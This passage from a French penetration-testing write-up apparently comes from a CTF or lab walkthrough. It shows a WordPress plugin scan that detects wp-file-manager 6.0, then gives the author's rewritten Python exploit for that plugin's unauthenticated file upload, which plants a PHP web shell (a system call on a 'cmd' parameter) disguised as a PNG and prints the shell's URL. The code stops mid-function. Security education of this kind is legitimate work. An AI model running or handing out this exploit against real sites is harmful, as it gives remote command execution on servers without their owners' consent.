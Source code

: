 J'ai dégainé ce valeureux Wapiti et son module *wp\_enum*... Et vous savez quoi ?  

```plain
[*] Lancement du module wp_enum
Enumération des extensions WordPress :
wp-file-manager 6.0 détecté
----
Enumération des thèmes WordPress :
twentynineteen 1.2 détecté
```

Je ne sais pas si c'est le fait que *wpscan* tournait dans son image Docker mais il faut toujours de méfier des outils qu'on emploie quitte à en tester plusieurs (j'ai déjà eu des situations similaires avec des outils de bruteforce réseau comme Hydra/Ncrack/Medusa).  

On trouve sur exploit-db un exploit bash pour cette vulnérabilité. Mais j'ai une préférence pour Python alors je suis allé fouiller sur Github et le code n'est pas toujours beau à voir.  

Je me suis basé sur [cet exploit](https://github.com/kalidor/wp-file-manager_6.8) qui a le mérite d'utiliser Python 3 et je l'ai réécrit en mieux (c'est un avis personnel bien sûr mais ça réduit tout de même de 35 lignes pour faire la même chose avec des erreurs en moins) :  

```python
#!/usr/bin/env python3
import sys
from urllib.parse import urlparse
from string import ascii_lowercase
from random import choices
from pathlib import Path
from typing import Optional

import requests

def get_root_url(url: str) -> str:
    parts = urlparse(url)
    return f"{parts.scheme}://{parts.netloc}/"

def get_random_php_filename() -> str:
    return "".join(choices(ascii_lowercase, k=10)) + ".php"

def attack(url, filename: Optional[str] = None):
    sess = requests.Session()
    sess.verify = False
    if filename:
        payload = open(filename, "rb").read()
    else:
        payload = b"<pre><?php system($_GET['cmd']); ?></pre>"

    backdoor_filename = get_random_php_filename()
    response = sess.post(
        f"{url}/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php",
        files={
            "upload[]": (backdoor_filename, payload, "image/png"),
            "target": (None, "l1_Lw"),
            "cmd": (None, "upload")
        }
    )
    if response.status_code == 200:
        data = response.json()
        if len(data["added"]) > 0:
            shell_url = get_root_url(url) + str(Path(data['added'][0]['url']).resolve()).lstrip("/")
            print(f"Success! Get your shell here: {shell_url}")
        else:
            print(f"Failure! {data}")
    else:
```
